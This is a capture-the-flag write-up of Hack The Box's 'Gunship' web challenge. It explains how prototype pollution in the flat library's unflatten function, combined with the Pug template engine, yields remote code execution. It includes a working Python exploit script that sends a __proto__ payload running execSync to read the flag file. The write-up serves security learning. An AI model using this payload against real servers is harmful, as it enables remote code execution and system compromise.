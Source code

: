 ```yaml
---
title: Gunship - Hack The Box
date: 2024-10-20
---
```


# Gunship

![Gunship](/ctf/hack-the-box/challenges/web/gunship/gunship.gif)

## Challenge Description

In this challenge, we were tasked with exploiting a web application named Gunship. The application is a Single Page
Application (SPA), and at the bottom of the page, there is a form where users can submit their favorite artist's name.

We were also provided with the source code of the application, which revealed potential vulnerabilities that could be
leveraged to compromise the system.

![Gunship](/ctf/hack-the-box/challenges/web/gunship/gunship-home.png)

## Code Review

### Key Dependencies

By reviewing the package.json file, we identified that the application uses several Node.js libraries, including:

```json
{
    "dependencies": {
        "express": "^4.17.1",
        "flat": "5.0.0",
        "pug": "^3.0.0"
    }
}
```

::: info Notably:

- Pug (version 3.0.0) is used to render server responses and is known to be vulnerable to prototype pollution.
- Flat (version 5.0.0), a library that converts nested objects into flat key/value pairs and vice versa, is used in the
  request handling process. The unflatten function from this library also has potential weaknesses that allow for
  prototype pollution.
  :::

### Endpoint Analysis

The form submits user input via a POST request to the /api/submit endpoint. The vulnerable portion of the server-side
code can be seen below:

```javascript
const { unflatten } = require("flat");

router.post("/api/submit", (req, res) => {
    const { artist } = unflatten(req.body);

    if (artist.name.includes("Haigh") || artist.name.includes("Westaway") || artist.name.includes("Gingell")) {
        return res.json({
            "response": pug.compile("span Hello #{user}, thank you for letting us know!")({ user: "guest" }),
        });
    } else {
        return res.json({
            "response": "Please provide us with the full name of an existing member.",
        });
    }
});
```

- Pug is used to render the response based on user input.
- The unflatten function processes the request body. However, it is vulnerable to prototype pollution, allowing us to
  manipulate the object prototype.

## Exploitation - Prototype Pollution

### Vulnerability: Prototype Pollution

By exploiting the prototype pollution vulnerability in flat’s unflatten function, we can inject arbitrary properties
into the `artist` object’s prototype. This can lead to remote code execution (RCE) through the Pug templating engine.

### Exploit Strategy

We will use Python to craft and send a malicious payload to the vulnerable `/api/submit` endpoint, injecting a `block`
object into the prototype of the `artist` object. This injected object will execute system commands on the server.

### Exploit Code:

```python
import requests

url = "http://localhost:1337/api/submit"

payload = {
    "artist.name": "Haigh",
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync('$(cat flag*)')"
    }
}

r = requests.post(url, json=payload)
print(r.json())
```

### Explanation of the Payload:

- **Prototype Injection**: The payload injects the `block` object into the prototype of the `artist` object using the
  `__proto__` property.
- **Command Execution**: The `block.line` property is set to execute a command using **Node.js** to read a file that
  starts
  with `flag` (`cat flag*`), typically containing the challenge flag.
- **Why `$()`?**: The `$()` syntax ensures that the command (`cat flag*`) is evaluated and executed by the system.

### Result:

After sending the crafted payload, the server returns the following response:

```
HTB{f4k3_fl4g_f0r_t3st1ng}
```

We got the flag!
Now you can try this on the HTB server to get the real flag.

![Gunship](/ctf/hack-the-box/challenges/web/gunship/gunship-pwned.png)

## References

- [Github - pug - Code Injection](https://github.com/pugjs/pug/issues/3312)
- [Hacktricks - Pug Prototype Pollution](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution#pug-vulnerability)